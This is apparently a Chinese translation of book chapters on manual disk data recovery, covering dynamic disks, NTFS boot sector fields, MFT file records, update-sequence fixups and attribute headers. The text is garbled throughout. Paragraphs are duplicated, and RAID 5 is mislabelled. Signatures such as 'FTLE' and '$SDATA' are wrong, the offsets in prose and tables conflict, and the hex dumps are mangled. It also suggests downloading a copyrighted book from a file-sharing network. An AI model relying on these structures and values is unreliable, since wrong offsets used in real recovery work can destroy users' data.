- `cd-hack.SCSI` — 这是我关于 CD 保护、反病毒活动的书籍中的一个片段。

## 调试加载器代码

调试加载器代码极其困难。几年前，开发者必须在加载器中实现一个微型调试器，要么手动搜索错误。在模拟器出现后，情况有了显著改善。现在，只需启动 Bochs（见图 5.5）并调试加载器即可。编写加载器是少数几个使用汇编语言真正合理的领域。高级语言对于这一目的来说灵活性不足且过于抽象。下一节列出了我强烈建议你在开发自己的之前研究的资源。

## 与加载器相关的资源

- MBR 和 OS 引导记录 — 这提供了许多关于 MBR 的材料。访问：`http://thesterman.narod.ru/asm/mbr_in_detail.htm`。
- Bochs — 这是一个内置调试器的优秀模拟器，极大简化了引导扇的调试和修复过程。免费提供。下载地址：`http://bochs.sourceforge.net`。
- Koders — 这是一个旨在搜索源代码的优秀搜索引擎。使用“MBR”关键字搜索可以产生许多加载器供选择（见图 5.6）。访问：`http://www.koders.com`。
- Ralf Brown 中断列表 —— Ralf Brown 著名的中断列表描述了所有已记录和未记录的中断（见图 5.7）。访问：`http://www.pobox.com/~ralf`。
- OpenBIOS — 位于源码中的 OpenBIOS 项目允许你对系统加载器相关的某些问题建立正确的理解，这些问题在初眼看来并不明显。访问：`http://www.openbios.info/docs/index.html`。

# 第二部分：自动与手动硬盘数据恢复

## 动态磁盘

动态磁盘随 Windows 2000 引入，是旨在克服标准分区机制局限性的软件 RAID。它们考虑了其直接前身——在 Windows NT 中实现的软件 RAID 的缺陷，后者将配置信息存储在系统注册表中。这一缺点导致 RAID 无法在机器之间迁移，并使 RAID 受到注册表损坏的影响。

## Windows 2000 支持的动态磁盘类型

- *简单（Simple）*——这些与普通分区几乎没有区别，区别在于重新划分硬盘分区后不再需要重启计算机。这是所有其他动态磁盘的基本类型。
  - 冗余性：无
  - 效率：低
- *跨卷（Spanned）*——这些由位于不同分区甚至不同设备的一个或多个简单磁盘组成，但表示为一个逻辑磁盘。简单磁盘上的数据按顺序写入（经典线性 RAID）。
  - 冗余性：无
  - 效率：低
- *条带（Striped）*——这些与跨卷相同，不同之处在于数据并行写入所有简单磁盘，前提是它们连接到 IDE 控制器的不同通道。这极地提高了数据交换率。简而言之，这就是经典的 RAID 0。
  - 冗余性：无
  - 效率：中
- *镜像（Mirrored）*——这是位于不同设备上的两个简单磁盘。数据在两个介质上均复制（RAID 1）。
  - 冗余性：中
  - 效率：中
- *条带（Striped）*——这些对应于 RAID 5。它们由三个或更多磁盘组成，表示具有校验控制的条带卷。数据以块的形式写入两个磁盘中；第三块磁盘包含第三个块，其中写入了纠错码（ECC），通过这些代码可以根据第二个块恢复任何块的内容。
  - 冗余性：高
  - 效率：高
- *镜像条带（Mirrored striped）*——这些对应于 RAID 1+0。
  - 冗余性：中
  - 效率：高

默认情况下，Windows 创建基本磁盘（术语定义见表 5.6）；但任何基本磁盘都可以随时更新为动态磁盘。这不需要重启机器。动态磁盘不使用分区表；因此，它们不会遇到 CH 位宽限制相关的问题，提供了创建无限大小卷的可能性。然而，通过更新基本分区创建的动态磁盘仍留在分区表中，其 Boot ID 变为 `42h`。如果信息意外被删除，系统将拒绝连接此类动态磁盘。顺便说，Windows 只能安装在更新过的动态磁盘上，因为 BIOS 只能从分区表中列出的分区启动系统，而动态创建的动态磁盘并不存储在其中。

# 第二部分：自动与手动硬盘数据恢复

表 5.6 动态磁盘与基本磁盘的术语对应关系

| 基本分区 | 动态分区 |
|---|---|
| 主分区 | 简单卷 |
| 系统和引导分区 | 系统和引导卷 |
| 激活分区 | 激活卷 |
| 扩展分区 | 卷和未分配空间 |
| 逻辑驱动器 | 简单卷 |
| 卷集 | 跨卷 |
| 条带集 | 条带集 |

动态磁盘的分区方法存储在 LDM 数据库中。这是一个支持事务的日志记录、容错数据库。在操作卷的过程中，如果计算机下次上电时发生断电，事务将回滚。如果包含一个或多个动态磁盘的硬盘迁移到另一个系统，动态磁盘将被自动识别并像普通磁盘一样挂载。

LDM 存储在硬盘的最后一个兆字节中。对于通过将基本分区更新为动态磁盘的动态磁盘，这些信息存储在该分区的最后一个兆字节中，相应分区表的 Boot ID 取值为 `42h`。这发生在标准磁盘分区过程中，其末端没有空空间，操作系统必须将此信息直接保存在正在更新的磁盘中（自然，该磁盘必须至少有 1 MB 的可用空间）。

分区后，如果信息意外被删除，系统将拒绝连接此类动态磁盘。顺便说，Windows 只能安装在更新过的动态磁盘上，因为 BIOS 只能从分区表中列出的分区启动系统，而动态创建的动态磁盘并不存储在其中。

# 第二部分：自动与手动硬盘数据恢复

## 第 5 章：手动数据恢复的基本概念 113

在恢复被删除的动态磁盘时，请记住，首先，事务日志可用。因此，无法使用标准的内置操作系统工具回滚事务。其次，被移除磁盘的引导扇会被清空；因此，你必须手动恢复它。这个主题将在本章中介绍。

如果你知道被移除动态磁盘的大小和类型（在 NTFS 磁盘上* 它可以从引导扇副本中检索到*），只需启动磁盘管理器并重新创建磁盘，在系统提示你格式化分区时回答“否”，并使用本章稍后描述的技术恢复被清空的引导扇。

引导扇的结构取决于特定文件系统的架构特性。NTFS 引导扇结构如表 5.7 所示。

## 第5章：手动数据恢复的基本概念 117

## 表 5.7. NTFS 引导区结构

| 偏移量 | 大小 | 描述 |
| :--- | :--- | :--- |
| 0x00 | 3 bytes | 跳转指令 |
| 0x03 | 8 bytes | OEM ID |
| 0x0B | 25 bytes | BPB |
| 0x24 | 48 bytes | 扩展 BPB |
| 0x54 | 426 bytes | 引导代码 |
| 0x01FE | WORD | 55 AA |

每个引导区的开头都是一个 3 字节的机器指令，跳转到引导代码（通常为 `EB 52 90`，尽管也可能存在变体）。当引导区被加载到内存中时，控制权移交给它的第一个字节，而由于某些模糊的历史原因，引导代码被移动到了扇区的末尾（对于 NTFS 而言，上边界是 `54h`）；因此，跳转指令是必须的。

从 0 开始计算，第 3 到 11 字节存储原始设备制造商标识符（OEM ID），定义了所用文件系统的类型和版本（例如，FAT16 使用 `MSDOS.5`，FAT32 使用 `MSWIN4.1`，NTFS 使用 `NTFS`）。如果此字段损坏，驱动程序将无法挂载磁盘，甚至认为其未格式化。

即使 OEM ID 字段包含无效值，Windows 2000 也可以处理 FAT 磁盘。但对于 NTFS，并非如此。

OEM ID 字段之后是 25 字节的 BIOS 参数块（BPB），它存储了关于磁盘几何的信息（磁道、磁头和扇区的数量；扇区大小；每簇扇区数等）。如果这些信息丢失或损坏，文件系统将无法正常存在。与 CHS 数量（它重复了 MBR 中的信息，且在丢失时可以使用上述方法轻松恢复）不同，簇大小并不容易确定。在本章稍后的部分，我将详细介绍这个主题。目前，使用表 5.8 即可，该表列出了内置格式化工具选择的默认 NTFS 簇大小。

## 表 5.8. Windows 2000 默认选择的簇大小

| 磁盘大小 | 簇大小 |
| :--- | :--- |
| < 512 MB | 1 个扇区 |
| < 1 GB | 2 个扇区 |
| < 2 GB | 4 个扇区 |
| > 2 GB | 8 个扇区 |

在手动选择簇大时，Windows 2000 支持以下选项：1 扇区、2 扇区、4 扇区、8 扇区、16 扇区、32 扇区、64 扇区和 128 扇区。簇越大，碎片越少，最大可寻磁盘容量越高。然而，粒度损失也会增加。尽管如此，手动指定簇大小的情况很少。

BIOS 参数块之后是它的延续——扩展 BPB，它存储了第一个 MFT 簇的编号、以簇为单位的 MFT 大小、带有 MFT 镜像的簇数量以及其他信息。与 FAT16/32 不同，MFT 可以位于磁盘上的任何位置（这对于克服坏道至关重要）。在正常情况下，MFT 实际上位于磁盘的开头（第四个簇附近）。如果它没有被重定位，可以通过全局搜索轻松找到（从起始扇区偏移量 0 处的 `FTLE` 字符串）。如果扩展 BPB 被破坏或包含错误值，文件系统驱动程序将拒绝挂载分区并报告其未格式化。

扩展 BPB 之后紧接着是引导代码，它在磁盘上寻找操作系统加载器（对于基于 Windows NT 的操作系统，这是 `ntldr` 文件）。在找到操作系统加载器后，引导代码将其加载到内存中并将控制权移交给它。如果引导代码缺失，将无法启动操作系统；然而，如果你连接了第二块磁盘，该分区将是可见的。引导代码的损坏会导致系统重启或挂起。

最后，引导由 `55h AAh` 签名结束，没有这个签名，该扇区就不会被解释为引导区。NTFS 引导区字段的详细信息见表 5.9。

## 表 5.9. NTFS 引导区字段

| 偏移量 | 大小 | 描述 |
| :--- | :--- | :--- |
| 0x00 | 3 bytes | 跳跃指令 |
| 0x03 | 8 bytes | OEM ID |
| 0x0B | WORD | 每扇区字节数；对于硬盘始终为 512 |
| 0x0D | BYTE | 每簇扇区数 |
| 0x0E | WORD | 预留扇区数；显然为 0 |
| 0x10 | 3 bytes | NTFS 不使用，必须为 0 |
| 0x13 | WORD | NTFS 不使用，必须为 0 |
| 0x15 | BYTE | 介质描述符；对于硬盘始终为 0xF8 |
| 0x16 | WORD | NTFS 不使用，必须为 0 |
| 0x18 | WORD | 每磁道数 |
| 0x1A | WORD | 磁头数 |
| 0x1C | BYTE | 扇区数 |
| 0x20 | DWORD | NTFS 不使用，必须为 0 |
| 0x24 | DWORD | NTFS 不使用，必须为 0 |
| 0x28 | 8 bytes | 扇区总数 |
| 0x30 | 8 bytes | MFT 起始逻辑簇数 |
| 0x38 | 8 bytes | MFT 镜像起始逻辑簇数 |
| 0x40 | DWORD | 每个段簇数 |
| 0x44 | DWORD | 簇总数 |
| 0x48 | 8 bytes | 卷序列号 |
| 0x50 | DWORD | 校验和；若时不计算 |
| 0x54 | 426 bytes | 引导代码 |
| 0x01FE | WORD | 55 AA |

## 引导技术

每个引导区的开头都是一个 3 字节的机器指令，跳转到引导代码（通常为 `EB 52 90`，尽管也可能存在变体）。当引导区被加载到内存中时，控制权移交给它的第一个字节，而由于某些模糊的历史原因，引导代码被移动到了扇区的末尾（对于 NTFS 而言，上边界是 `54h`）；因此，跳转指令是必须的。

从 0 开始计算，第 3 到 11 字节存储原始设备制造商标识符（OEM ID），定义了所用文件系统的类型和版本（例如，FAT16 使用 `MSDOS.5`，FAT32 使用 `MSWIN4.1`，NTFS 使用 `NTFS`）。如果此字段损坏，驱动程序将无法挂载磁盘，甚至认为其未格式化。

即使 OEM ID 字段包含无效值，Windows 2000 也可以处理 FAT 磁盘。但对于 NTFS，并非如此。

OEM ID 字段之后是 25 字节的 BIOS 参数块（BPB），它存储了关于磁盘几何的信息（磁道、磁头和扇区的数量；扇区大小；每簇扇区数等）。如果这些信息丢失或损坏，文件系统将无法正常存在。与 CHS 数量（它重复了 MBR 中的信息，且在丢失时可以使用上述方法轻松恢复）不同，簇大小并不容易确定。在本章稍后的部分，我将详细介绍这个主题。目前，使用表 5.8 即可，该表列出了内置格式化工具选择的默认 NTFS 簇大小。

如果找到了已删除的 `ntoskrnl.exe` 副本（如果磁盘上有该文件的多个副本），此方法将失效；因此，必须使用其他文件检查获得的结果。

第一个 MFT 簇的逻辑编号等于首次遇到 `FILE` 字符串的起始簇（前提是 MFT 未被移动）。默认情况下，Windows 分配分区大小的 12.5% 空间给 MFT，并将其镜像放在磁盘中间。此外，MFT 本身也包含了对该镜像的引用。如果 MFT 已损坏，请前往磁盘中间，稍微向后移动一点，然后重复对 `FILE` 字符串的全局搜索。确保你没有越过分区限制进入下一个分区。第一个匹配项很可能是镜像。

每个段的簇数通常等于 `0xF6h`，每个索引块的簇数为 `0x01h`（至少，我没有遇到过其他值）。卷序列号可以是任何值，因为它们并不重要。

要恢复丢失或损坏的引导程序代码，请启动恢复控制台并执行 `FIXBOOT` 命令。

## 总结

如你所见，数据恢复并没有神秘之处，恢复大多数类型的损坏并不需要专家级技能。然而，如果你没有完全理解本章涵盖的某些观点，请重新阅读，并使用磁盘编辑器研究文件系统结构。我一直都在介绍非常简单且为人知的话题。现在，掌握了基本概念后，你可以深入研究 NTFS 内部。下一章将集中关注 NTFS 结构的恢复。

# 第 6 章：新技术
文件系统 —— 内部与外部

本章将介绍 NTFS 的主要数据结构，这些结构决定了它的基础概念——MFT、文件记录、更新序列或修复（fixups）、属性或流，以及数据运行（data runs）。

如果没有这些这些概念的良好理解，操作磁盘编辑器是不可能的，更不用说手动或半自动的数据恢复了。

## 引言

一种通用的方法将 NTFS 描述为一个复杂的关系型数据库，其架构的宏大让整代研究初学者感到无所措。NTFS 类似于一个被黑暗覆盖的巨大迷宫，在那里很容易迷路。然而，黑客们早已揭开了其主要数据结构的神秘面纱，并为构成巨大迷宫骨干的走廊点亮了许多火炬。侧路较少为人知，仍然被黑暗所覆盖。它们保留着致命的陷阱（对看似已知的数据结构的处理），等待着大胆的调查者。通常，一个用于读取 NTFS 卷的简单工具可以在一个晚上内编写并调试完成。对于合格的程序员来说，这只需要几个小时。然而，从未有人冒险实现一个可以向 NTFS 卷写入的工具。幸运的是，为了实现所考虑的目标，不需要编写一个全全的 NTFS 驱动。你的任务要务实得多：将损坏的卷恢复到操作系统可以识别（最多）的状态，或者（至少）从该卷中提取所有价值文件。要实现其中任何一个目标，无需深入研究事务日志、安全描述符和索引二叉树结构。成功恢复数据需要的是对 MFT 及其若干子结构有正确的理解。

关于 NTFS 的信息来源如下：

- *Inside the Windows NT File System* 由 Helen Custer —— 这本书提供了文件系统的总体概念，并对其概念进行了详细描述。遗憾的是，这本书仅在抽象层面提供所有解释，没有指定偏移和数据结构的具体数值。此外，在 Windows 2000 和 Windows XP 中，NTFS 引入了许多修改。这些修改在书中并未涵盖。如果你在商店找不到这本书，可以在交换网络中查找（例如，访问 `http://www.emule-project.net/home/perl/general.cgi?=1`），在那里几乎可以找到任何东西。
- Linux-NTFS 项目的黑客文档 (`http://linux-ntfs.org/`) —— 长期以来，这些人一直以为 Linux-NTFS 项目开发工具为嗜好。
- DiskExplorer 的上下文帮助 —— 这包含了文件系统的详细描述。遗憾的是，这些描述组织混乱。为了方便文本导航，我建议你将编译帮助（CHM）文件反编译为普通文本文件，然后转换为 Word、PDF 或你喜欢的其他格式。

## 提示

如何快速识别分区的文件系统类型是 FAT 还是 NTFS？这很简单：只需在根目录下创建一个名为 `SMFT` 的文件。如果文件系统是 FAT，你会成功；如果不是，你会失败。如果你能成功创建一个名为 `EXTEND` 的文件，那么 ntffs 版本就是 3.0 或更高。

## NTFS 版本

NTFS 的关键结构不是不变的。相反，它们在每个新的 Windows NT 操作系统中都会修改（见表 6.1）。在使用自动化医生时必须考虑到这一点。如果这种医生没有配备人工智能，它在遇到较新的 NTFS 版本时可能会困惑。结果可能是糟糕的；它极有可能破坏健康的卷。

### 表 6.1. 通过操作系统定义 NTFS 版本

| NTFS 版本 | 操作系统 | 标记 |
| --- | --- | --- |
| 1.2 | Windows NT | NT |
| 3.0 | Windows 2000 | W2K |
| 3.1 | Windows XP | XP |

## 视角下的 NTFS

卷是任何文件系统的主要元素。在 FAT 中，它等同于上一章中介绍的分区。NTFS 支持由多个分区组成的卷（图 6.1）。卷到分区的映射方法将在将详细介绍。大多数文件系统将卷解释为一组文件、空磁盘空间和辅助文件系统结构。但在 NTFS 中，所有的辅助结构都由文件表示，这些文件通常可以位于卷的任何位置，甚至在必要时可以碎片化。

## 第 6 章：新科技文件系统 —— 内部与外部

最重要的辅助文件是 `$MFT` —— 主文件表 —— 这是一个专门的数据库，存储了卷中所有文件的信息，包括名称、属性以及在磁盘上的位置。目录也是一种特殊文件，包含存储在其内部的文件和子目录列表。需要指出的是，`$MFT` 相关的文件包含在卷中所有的目录和子目录中；因此，只要存在 `$MFT` 文件就足以恢复受损的磁盘。

所有其他文件称为元文件（metafiles）或元数据，它们仅用于文件系统的辅助任务。最重要的元文件包括 `$LogFile`（事务日志）、`$Bitmap`（磁盘空闲和已占用区域的映射表）以及 `$BadClus`（坏簇列表）。关于这些元文件的更多细节将在本章稍后章节的“辅助文件的目的”章节中提供。当前的 Windows 版本从应用层访问辅助文件（即使对于具有管理员权限的用户也是如此）。任何在根目录下尝试创建或打开此类文件的尝试将不可避免地失败。

文件的经典定义是存储在磁盘上的记录。大多数文件系统引入了文件属性的概念 —— 提供诸如文件创建时间和访问权限等信息的辅助特征。在 NTFS 中，文件名、其数据及其属性具有同等的权利。可以说，每个 NTFS 文件都是属性的集合，每个属性都存储为字节流。因此，为了避免混淆，存储文件数据的属性通常被称为流（streams）。

每个属性都包含一个主体（body）和一个头部（header）。属性被分为驻留（resident）和非驻留（nonresident）。驻留属性直接存储在 `$MFT` 中，减少了磁盘空间占用和访问时间。非驻留属性在 `$MFT` 中存储头部，描述该属性在磁盘上的位置（参见本章稍后的“数据运行”章节）。

每个特定属性的目标由其类型定义 —— 一个 4 位十六进制值。如果需要，可以为属性分配一个名称，该名称由相应命名空间的有效字符组成（参见本章稍后的“命名空间”章节）。大多数文件至少有三个属性，其由关于该文件的标准信息（创建时间、修改时间、最后访问时间、访问权限等）组成，存储在 `10h` 类型的属性中，该属性通常称为 `$STANDARD_INFORMATION`。早期版本的 Windows NT 允许通过常规名称访问属性；然而，Windows 2000 和 Windows XP 缺乏这种可能性。完整文件名（不要与路径名混淆）存储在 `30h` 类型的属性 (`$FILE_NAME`) 中。如果文件有一个或多个备用名称（例如 MS-DOS 名称），可能会有多个此类属性（参见本章稍后的“属性类型”）。同一位置还存储了指向父目录的文件引用，允许你确定特定文件或子目录属于哪个目录。文件默认被存储在一个未命名的 `80h` 类型的属性 (`$DATA`) 中；然而，如果需要，应用程序可以创建额外的数据流，并使用文件名加冒号的方式为属性命名（例如：`ECHO > file:attr1; ECHO yyy > file:attr2; more < file:attr1; more < file:attr2`）。

最初，NTFS 留了对任何属性进行索引的可能性，这通过指定的二叉树列表显著缩短了文件搜索所需的时间（例如最后访问时间）。内部索引以树的形式存储，完成查询所需的平均时间评估为 O(log n)。然而，当前的 NTFS 驱动程序按名称实现此功能。如提到的，目录是一种特定类型的文件 —— 索引。与 FAT 不同，FAT 的目录文件是关于文件组织信息的唯一来源，而在 NTFS 中，目录文件仅用于加速对目录内容的访问。它们没有被标记，因为指向父目录的引用必须包含在每个文件的名称属性 (`$FILE_NAME`) 中。

每个属性都可以被加密或压缩。处理此类属性的技术的技术远超文件系统的基础框架，将在稍后进行更详细的介绍。目前，请集中在 NTFS 的基础上 —— `$MFT` 结构。

## 主文件表 (Master File Table)

当逻辑磁盘格式化为 NTFS 时，会在其起始区域创建一个所谓的 MFT 区域（图 6.2）。默认情况下，它占据卷总大小的 12.5%（而不是大多数出版物错误声称的 12%），尽管取决于 `$fsMftZoneReservation` 参数的值，它可以占据 25%、37% 或 50%。

该区域包含 `$MFT` 文件，它最初占用 64 个扇区，并随着新用户文件、目录或子目录的创建，从 MFT 区域的开始一直增长到末尾。因此，存储在卷中的文件越多，MFT 就越大。

MFT 文件的大小可以根据以下公式估算：
`sizeof(FILE Record) * N Files`，其中 `sizeof(FILE Record)` 通常为 1 KB，而 `Files` 是存储在卷的文件或子目录的总数（包括最近删除的）。

**图 6.2. NTFS 卷结构**

| MFT 区域 | 存储文件的磁盘空间 |
|---|---|

为了防止 MFT 文件的碎片，使用了 MFT 区域。

从“文件”菜单开始，在出现的窗口中选择要编辑的逻辑磁盘。然后从“转到”菜单中选择 `Mft` 命令打开 MFT，它会自动切换到最方便的显示模式（图 6.3）。或者，你也可以按下 `<F6>` 键（以文件项显示）并使用 `<Page Down>` 键滚动几个起始扇区。

对于每个文件，DiskExplorer 报告以下信息：

- 该文件记录所属的扇区数量（注意：扇号由您递增，从而确认了单个文件记录的大小为 1 KB ——尽管您可能会遇到其他值）。为了方便起见，信息以十六进制和十进制两种格式显示。

文件或目录的主名称（例如文件记录的头部）。注意，某些文件可以有多个替代名称（更多详情请参见后文的“属性”章节）。如果文件或目录名称带有删除线，则该文件或目录已删除，但相应的文件记录仍然完整。要从磁盘检索文件（无论是否已删除），将光标移动到此处并按下 `<Ctrl>T` 快捷键以十六进制格式查看内容，或按下 `<Ctrl>S` 保存文件。这可以通过右键菜单（子菜单）实现。当用户按下 `<Ctrl>C` 快捷键时，文件占用的扇区序列将复制到剪贴板（例如 `DISK:K:1034240`）。

文件记录的类型（或目录）。

文件或目录属性：a = 归档，r = 只读，h = 隐藏，s = 系统，l = 卷标，d = 目录，c = 压缩。

十进制的文件大小（非目录）。

文件或目录最后修改的时间。

文件或目录的第一个簇的数量（或驻留的，全目录）。

文件或目录的 NTFS 属性类型如下：`10 30 80` 用于标准属性、名称属性和数据属性。更多详情请参见后文的“属性类型”章节。

MFT 中的文件记录索引，以十六进制和十进制表示。

父目录的文件记录索引，以十六进制和十进制表示（如果文件位于根目录）。要快速导航文件记录，从“转到”菜单中选择 Mft 命令并指定所需的十六进制或十进制索引。对于非驻留的文件或目录，文件占用的扇区以编码形式显示（你必须对其解码）。簇编码方法在后文的“数据运行”章节详细介绍。在继续之前，尝试处理 MFT 文件（特别是碎片化的）。考虑添加和删除 MFT 记录的机制。

## 文件记录

使用 DiskExplorer 工具，很少需要手动处理文件记录。然而，了解它们的结构是有用的。文件记录的结构包括头部和多个任意长度的属性，最后是结束标记 `0xFFFFFFFF`（见列表 6.1）。尽管属性的数量和长度随记录而异，但文件记录结构的大小是固定的——大多数情况下为 1 KB（此值存储在引导文件中，不应与引导扇混淆）。因此，文件记录的第一个字节始终与扇区对齐。

如果属性的实际长度小于文件记录的大小，则该部分将未使用。如果属性无法放入分配的空间内，则创建一个额外的文件记录指向其前身记录。

### 列表 6.1 文件记录结构
```


# FILE Record

Header ; 头部

Attribute 1 ; 属性

Attribute 2 ; 属性

...

Attribute N ; 属性

End Marker (`FFFFFFFF`) ; 结束标记

头部的前 4 个字节被魔数序列占据，表示你正在处理一个文件记录。在恢复碎片文件时，这种情况至关重要，因为它允许你区分属于 `MFT` 的扇区与其他扇区。该签名之后是一个 16 位指针，包含更新序列的偏移量（参见后文的“更新序列”章节）。

第二部分：自动和手动磁盘数据恢复

指针应被解释为相对于扇区的字节偏移，从零开始。在 Windows NT 和 Windows 2000 中，此字段始终等于 `0x02A`；因此，为了搜索文件记录，可以使用 `FILE` 签名，以减少假阴性的概率。然而，在 Windows XP 及后续操作系统中，更新序列存储在 `0x02D` 偏移处；因此，签名如下：`FILE-`。

头部大小（随系统而异）没有显式存储在任何地方。相反，头部包含指向第一个属性的指针，指定其相对于文件记录起始位置的偏移，位于扇区偏移 `0x14` 字节处。所有后续属性（如果有）的偏移通过将所有之前属性的大小（每个属性的大小都在其头部中指定）加上第一个属性的偏移来确定。最后一个属性的结束由结束标记 `0xFFFFFFFF` 表示。

此外，文件记录长度存储在两个字段中。第一个是 32 位实际大小字段，位于扇区偏移 `0x1B` 字节处，包含头部、所有属性和结束标记的总大小，并按 8 字节边界对齐。第二个是 32 位分配大小字段，位于扇区偏移 `0x1C` 字节处，包含文件记录的字节大小，按扇区大小对齐。

# 第 6 章：新技术系统 —— 内部与外部

文件记录头最重要的字段如表 6.3 所示。文件记录头的所有其他字段重要性较低，因此此处将不再进行介绍。必要时，请参考 Linux-NTFS 项目文档。

## 表 6.3. 文件记录头的结构

| 偏移量 | 大小 | 操作系统 | 描述 |
| --- | --- | --- | --- |
| 00h | 4 | 任意 | `FILE` 签名 |
| 04h | 2 | 任意 | 更新序列号 |
| 06h | 2 | 任意 | 更新序列号和数组，习惯上 s |
| 08h | 8 | 任意 | `$LogFile` 序列号 |
| 10h | 2 | 任意 | 序列号 |
| 12h | 2 | 任意 | 硬链接 |
| 14h | 2 | 任意 | 第一个属性的偏移量 |
| | | | 标志 |
| | | | 值 | 描述 |
| | | | `0x00` 文件记录未未使用。 |
| 16h | 2 | 任意 | `0x01` 文件记录正在使用并描述一个文件。 |
| | | | `0x02` 文件记录正在使用并描述一个目录。 |
| | | | `0x04` 只有比尔·盖茨知道。 |
| | | | `0x08` 只有比尔·盖茨知道。 |
| 18h | 4 | 任意 | 文件记录的实际大小 |
| 1Ch | 4 | 任意 | 文件记录的分配大小 |
| 20h | 8 | 任意 | 指向基础记录的文件引用，如果该记录是基础记录则为零 |
| 28h | 2 | 任意 | 下一个属性标识符 |
| 2Ah | 2 | XP | 用于对齐 |
| 2Ch | 4 | XP | MFT 记录数 |
| | 2 | 任意 | 更新序列号 |
| | 2S-2 | 任意 | 更新序列数组 |

## 更新序列

作为文件系统中至关重要的组件，`$MFT`、`$INDEX` 和 `$LogFile` 需要某种机制来控制其内容的完整性。传统上使用纠错和错误检测码；然而，在 NTFS 构建期间，处理器的速度没有现在的快。因此，计算和分析校验码需要花费大量时间，这显著降低了文件系统的性能。因此，NTFS 开发者不得不放弃这种方法。相反，他们必须采用所谓的更新序列（update sequences），也称为修复（fixups）。

每个扇区的结尾构成文件记录（INDEX 记录、RCRD 记录或 RSTR 记录）一个 16 字节的更新序列号，该号在文件记录头中重复。在每次读取操作过程中，扇区的头部与相应的头部字段进行比较。如果 NTFS 驱动程序检测到任何差异，则该文件记录被视为无效。

更新序列的主要目标是检测写入中断。例如，如果在操作过程中意外中断电源，文件记录的一部分可能已更新，而另一部分可能保留其之前的值（回想文件记录包含两个扇区）。电源恢复后，文件系统驱动程序将无法确定写入操作是否成功完成。这就是更新序列大用之处。当扇区被覆盖时，更新序列会加一，因此如果写入操作被中断，文件记录头中的更新序列值将与扇区结尾的更新序列不匹配。

位于更新序列“下方”的原始内容存储在一个特殊的序列数组中，该数组位于文件序列头紧接更新序列号之后。要恢复文件记录，需要从指向序列号的指针（存储在距离头部偏移 `04h` 字节处）获取值，并将 16 字节的值与组成文件记录的每个扇区的最后一个字进行比较。如果这些值不匹配，则相应的数据已损坏。从扇区开始偏移 `06h` 字节处，有一个 16 位字段存储更新序列号和更新序列数组的总大小（以字为单位）。由于更新序列号始终等于一个字，更新序列数组的字节大小等于（更新序列号 - 1）* 2。因此，数组的偏移量等于（序列号）+ 2。在 Windows NT/2000 中，更新序列始终位于文件记录头偏移 `2Ah` 处，数组位于 `2Ch`。在 Windows XP 及更高版本中，这些偏移量分别为 `2Dh` 和 `2Fh`。更新序列的第一个字对应于文件记录或索引的第一个扇区的最后一个字。第二个字对应于第二个扇区的最后一个字，依此类推。要恢复扇区的初始形式，必须将更新序列数组的所有元素返回相应的位置（内存中的扇区副本已被修改）。我将通过示例 6.2 说明这一点。

### 示例 6.2. 恢复前的原始文件记录

```
--> FILE Record 的第一个扇区

00000000: 46 49 4C 45-2A 00 03-0C 77 1A 04-02 00 00 00 FILE* |~H-+

00000010: 01 09 02 02-30 00-01-28 02 00-00 04 00 00 ◌ ◌

00000020: 00 00 00-00 00 00-00-06 00-06-00 00 00 47 11 ◀

...

000001F0: 00 00 00-00 00 00-00-00 00 00 00 00 00 00

...

000003F0: 07 CC EE-00 09 00-FF FF FF-82 79 06 00

<-- 第二扇区的结束
```

`FILE` 签名指定文件记录开始。因此，指向序列号的 16 位指针位于偏移量 `04h`。在这种情况下，它等于 `2Ah`。转到偏移量 `2Ah`，你会发现该位置包含 `06h`。现在转到扇区结尾进行比较。实际上，扇区的数量应该是两个。与其猜测，不如需要从文件记录开始偏移 `06h` 处获取一个 16 位值（在这种情况下，它等于 `003h`）并减一。你就得到了两个扇区的长度。现在，需要找到存储每个扇区原始值的序列数组。更新序列数组的偏移量等于更新序列指针加二。这意味着在前面的示例中，它必须等于 `02Ah+02h=0Ch`。获取第一个字（在这种情况下等于 `00h`），并将其写入第一个扇区的结尾。获取下一个字（`471h`），并将其写入第二个扇区的结尾。

结果，恢复的扇区将如示例 6.3 所示。

### 示例 6.3. 恢复的文件

```
--> FILE Record 的第一个扇区

00000000: 46 49 4C 45-2A 00 03-00 77 1A 04-02 00 00 00 FILE* |~H-+

00000010: 01 09 02 02-30 01 00-28 02 00-00 04 00 00 ◉ ○ ○

00000020: 00 00 00-00 00 00-06 06 00-00 00 00 47 11

...

000001F0: 00 00 00-00 00 00-00-00 00 00 00 00 00 00

...

000003F0: 07 CC E1 ED-00 09 00-00-FF FF FF-82 79 47 11 *Iæ o yyyBy
```


`FILE RECORD`、`INDEX Record`、`RCRD Record` 和 `RSTR Record` 的序列不，在使用前必须进行恢复；否则你将获得无意义的垃圾而不是实际数据。

## 属性

任何属性的结构都包含属性头部和属性体。属性头部始终存储在 `MFT` 中的文件记录（参见本章前面的“文件记录”部分）。驻留属性体存储在相同的位置。非驻留属性将其体存储在 `MFT` 之外的其它


或在该属性的头部的特殊列表中列出的簇（参见本章节后的“数据运行（Data Runs）”部分）。如果位于属性头起始偏移 `08h` 字节处的 8 位字段设置为 `0`，则该属性是驻留的（resident）。如果它的值为 `1`，则该属性是非驻留的（nonresident）。除 `0` 和 `1` 之外的所有值均为无效。

属性头的前 4 个字节定义了其类型。属性类型反过来定义了用于表示属性主体的格式。特别是，数据属性的主体（类型 `80h` 表示 `$SDATA`）是一个原始字节序列。标准信息属性的主体（类型 `10h` 表示 `$STANDARD_INFORMATION`）描述了其创建类型、访问权限等信息。更多细节请参见“属性类型（Attribute Types）”。

属性头接下来的 4 个字节指定了以字节为单位的属性长度。非驻留属性的长度等于其头部主体长度的和，而驻留属性的长度等于其头部长度。简而言，如果将属性长度与其偏移量相加，将获得下一个属性的指针（如果当前属性是属性序列中的最后一个，则为结束标记）。

驻留属性的长度（字节为单位）存储在位于属性头起始偏移 `10h` 字节处的 32 位字段中。紧随其后的 16 位字段存储了从属性头起始计算的驻留主体偏移量。对于非驻留属性，情况更为复杂，使用字段列表来存储其主体的长度。属性的实际大小（以字节为单位）存储在位于头部起始偏移 `30h` 字节处的 64 位字段中。直接紧随其后的另一个 64 位字段存储了流的初始化数据大小，该大小以字节为单位，且表面上始终等于属性主体的实际大小。位于属性头起始偏移 `28h` 字节处的 64 位字段存储了属性的分配大小，以字节为单位，并等于属性实际大小向上取整到簇边界的值。

